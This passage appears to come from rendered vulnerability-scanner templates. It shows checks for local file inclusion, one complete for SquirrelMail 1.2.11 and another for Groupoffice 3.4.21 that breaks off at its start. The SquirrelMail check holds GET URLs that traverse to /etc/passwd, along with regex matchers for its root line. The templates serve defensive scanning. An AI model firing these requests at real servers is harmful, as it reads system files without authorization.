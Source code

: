 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# SquirrelMail 1.2.11 - Local File Inclusion

## Description

- SquirrelMail 1.2.11 is vulnerable to local file inclusion.
- severity - high
- tags - lfi,squirrelmail,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/src/read_body.php?mailbox=/etc/passwd&passed_id=1&
- {{BaseURL}}/src/download.php?absolute_dl=true&passed_id=1&passed_ent_id=1&mailbox=/etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Groupoffice 3.4.21 - Local File Inclusion

## Description

- Groupoffice 3.4.21 is vulnerable to local file inclusion.
- severity - high
- tags - groupoffice,lfi,traversal

## Requests
